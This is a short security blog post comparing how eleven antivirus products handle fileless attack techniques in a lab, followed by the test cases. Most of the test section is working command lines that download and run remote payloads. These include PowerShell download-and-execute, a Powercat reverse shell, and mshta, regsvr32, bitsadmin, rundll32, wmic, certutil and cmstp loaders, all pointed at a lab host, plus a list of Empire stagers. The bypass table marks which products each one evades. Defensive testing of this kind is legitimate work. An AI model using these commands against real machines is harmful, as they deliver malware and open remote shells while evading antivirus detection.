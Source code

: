 ```yaml
---
title: "AV comparison on fileless attack"
date: "2020-04-08"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


I've test some fileless command in my lab with AV Protection and here's the result.

| Symbol | Description |
|---|---|
| ✔️ | Blocked |
| ❌ | Bypassed |

---

| Fileless technique | Bitdefender | Avast | Symantec | Webroot | ESET | Karspersky | Sophos | TrendMicro | WinDef | Malwarebytes | Panda Adaptive | 
| --- | ---| ---| ---| ---| ---| ---| ---| ---| ---| ---|---|
| koadic `mshta` | ✔️| ❌|❌ | ❌| ✔️ |❌ | ❌| ❌| ✔️ |❌ |❌ |
| koadic `regsvr` | ✔️|❌ |❌ | ❌|✔️ |✔️ |✔️ |✔️ | ✔️| ❌| ✔️|
| koadic `rundll32_js` | ✔️|❌ |✔️ | ❌|✔️ | ✔️|❌ |✔️ | ✔️| ❌| ✔️|
| koadic `bitsadmin ` | ❌|✔️ |❌ |❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
|koadic `disk`|✔️ | ❌| ❌|❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
| koadic `wmic` | ✔️|❌ |✔️ |❌ |❌ |✔️ |✔️ | ✔️| ✔️|❌ | ✔️|
| Malicious Powershell line  |✔️ |✔️ |✔️ |❌ | ❌| ✔️|❌ |✔️ | ❌| ❌| ✔️|
| msvenom `msiexec ` |✔️ |✔️ | ✔️|✔️ |✔️ |✔️ | ✔️| ✔️|✔️ |✔️ | ✔️|
| msvenom `certutil `| ✔️| ✔️| ✔️|❌ | ✔️| ✔️|✔️ |✔️ |✔️ |✔️ | ✔️|
| msvenom `batch ` | ✔️| ✔️| ✔️|❌ | ❌|✔️ |❌ |❌  | ✔️|❌ |❌ |
| msvenom `cscript `(vbs)  |✔️ |✔️ |✔️ |❌ |✔️ |✔️ |✔️ |✔️ |✔️ | ✔️| ✔️|
| Powercat | ✔️|✔️ | ✔️|❌ |❌ | ❌|❌ |❌  |✔️ |❌ | ✔️|


# Testcase

My testcase are mostly using msvenom with metasploit and koadic.

## Powershell

Download and execute
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"
```

Powercat
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/powercat.ps1');powercat -c 192.168.189.131 -p 9999 -e cmd"
```

Msvenom batch
```
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/ms.bat'))
```

Msvenom Vbscript
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/ms.vbs', '%temp%\ms.vbs'); Start-Process %windir%\system32\cscript.exe -Filepath '%temp%\ms.vbs'"
```

Powershell empire stager
```
windows/launcher_bat
windows/launcher_lnk
windows/launcher_sct
windows/launcher_vbs
windows/launcher_xml
windows/backdoorLnkMacro  
windows/macro
windows/bunny             
windows/macroless_msword
windows/csharp_exe        
windows/shellcode
windows/dll               
windows/teensy
windows/ducky
windows/hta
```

Powersploit

## Koadic

Mshta
```
mshta http://192.168.189.131:9999/tT4Fh
```

Regsvr32
```
regsvr32 /s /u /n /i:http://192.168.189.131:9998/d2XfT scrobj
```

Bitsadmin
```
bitsadmin /transfer oZHsz /download /priority high http://192.168.189.131:9995/oZHsz.wsf %temp%\oZHsz.wsf & start /wait %temp%\oZHsz.wsf & del %temp%\oZHsz.wsf
```

Rundll32
```
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://192.168.189.131:9997/eTMXy",false);x.send();eval(x.responseText);window.close();
```

Wmic
```
wmic os get /FORMAT:"http://192.168.189.131:9996/pMeV8.xsl"
```
```
wmic process call create "powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'" "
```

## Others

Certutil
```
certutil.exe -urlcache -split -f http://192.168.189.131:7777/ms.exe ms.exe & ms.exe
```

Cmstp
```
cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
```

## Catchyou
New tool by thelinuxchoice

```
git clone https://github.com/thelinuxchoice/catchyou
cd catchyou
bash catchyou.sh
```

# Note
Msvenom payload may easily detect by AV because of it's popularity used by many attacker and well recognized by its pattern.
